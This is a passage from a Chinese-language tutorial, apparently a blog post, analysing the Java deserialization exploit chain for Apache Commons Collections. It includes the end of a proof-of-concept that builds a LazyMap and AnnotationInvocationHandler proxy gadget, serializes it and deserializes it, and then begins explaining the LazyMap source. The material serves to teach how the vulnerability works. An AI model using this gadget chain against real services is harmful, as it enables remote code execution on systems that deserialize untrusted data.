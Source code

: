 ```java
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map)
                Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class},
                        handler);
        handler = (InvocationHandler)
                construct.newInstance(Retention.class, proxyMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

这与我们之前的poc代码有一些不同，主要是两点：

* 没有发现我们熟悉的`TransformedMap.decorate`，而有一个`LazyMap.decorate`
* 多了两行代码` Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);`

让我们一点一点来分析

##### LazyMap如何代替TransformedMap触发漏洞

```java
// LazyMap.decorate(innerMap, transformerChain);返回的对象
public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
}

protected LazyMap(Map map, Transformer factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        }
        this.factory = factory;

```
